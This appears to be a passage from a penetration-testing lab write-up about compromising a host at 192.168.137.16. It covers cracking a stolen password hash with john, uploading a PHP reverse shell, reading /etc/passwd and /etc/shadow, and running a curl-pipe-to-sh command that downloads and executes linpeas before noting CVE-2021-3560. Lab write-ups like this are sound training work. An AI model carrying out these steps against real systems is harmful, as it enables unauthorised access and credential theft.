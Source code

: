 - Checked `filemanager/config/.htusers.php` and found `dora` password hash `$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS`
![[Pasted image 20241007203309.png]]
- Ran `john` against password hash for `dora` and found credential `dora:doraemon`
![[Pasted image 20241007203751.png]]
---
# Exploitation
## Name of the technique
- Identified option to upload files to Admin dashboard
![[Pasted image 20241007202007.png]]
- Created PHP reverse shell file with `revshells.com` and saved file as `shell2.php`
![[Pasted image 20241008161714.png]]
- Uploaded `shell2.php`, attempted to navigate to `192.168.137.16/filemanager/shell2.php` and caught reverse shell
![[Pasted image 20241008161857.png]]
---
# Lateral Movement to user
## Local Enumeration
- Upgraded to full shell, switched user with credentials `dora:doraemon`, then upgraded to full shell again
![[Pasted image 20241008162333.png]]
- Navigated to `/home/dora` and printed file `local.txt`
![[Pasted image 20241008162600.png]]
- Ran `cat /etc/passwd` to identify any other users & `cat /etc/shadow` to check access
![[Pasted image 20241008162827.png]]
---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` to check sudo privileges for `dora`
![[Pasted image 20241008162910.png]]
- Ran `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` to download and execute `LinPeas`
![[Pasted image 20241008163706.png]]
- Identified by `LinPeas` as vulnerable to [CVE-2021-3560](https://github.com/UNICORDev/exploit-CVE-2021-3560)
![[Pasted image 20241008163811.png]]
	- CVE-2021-3560 can be used to bypass polkitd credentials checks to elevate a user to `root`
- Identified user `dora` is part of `disk` group
![[Pasted image 20241008170025.png]]
	- Also ran `- find /dev -group disk` to check partitions owned by `disk`
		![[Pasted image 20241008170348.png]]
- Identified ssh config file
![[Pasted image 20241008164637.png]]
- Identified interesting files modified in last 5 mins
![[Pasted image 20241008164753.png]]